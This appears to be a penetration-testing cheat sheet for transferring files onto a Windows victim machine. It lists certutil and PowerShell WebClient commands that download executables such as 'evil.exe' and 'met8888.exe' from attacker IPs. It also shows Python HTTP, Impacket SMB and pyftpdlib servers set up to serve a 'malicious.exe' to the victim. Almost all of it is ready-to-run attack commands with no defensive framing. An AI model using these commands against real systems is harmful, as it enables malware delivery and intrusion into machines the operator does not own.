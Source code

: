 # Built in windows utility to download file:
### certutil.exe

```
certutil.exe -urlcache -split -f http://10.10.0.101/evil.exe safe.exe
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

### Powershell:
```
(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')
```


# setup webserver to download malicious file:
run the command in the folder you want hosted. 

## python2:
```
python -m SimpleHTTPServer 8000
```

## python3:
```
python3 -m http.server 8000
```

#### Check:
browse to localhost:8000

#### From Victim Machine:
browse to <Attacker-IP>:8000


# SMB share:
#### setup SMB sharefrom Impacket:
/opt/impacket/examples:
```
python smbserver.py ROPNOP /root/shells
```

#### From Windows:
```
net view \\192.168.1.29
dir \\192.168.1.29\folder
copy \\192.168.1.29\folder\mailicious.exe
```

#### OR:
```
extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
```

# Setup FTP server:
#### install and start FTP server:
```
apt-get install python-pyftpdlib
python -m pyftpdlib -p 21
```

#### Download file from Windows:
```
C:\>ftp 192.168.1.29
username: anonymous
password: whatever
ftp> binary
ftp> get malicious.exe
ftp> bye
```

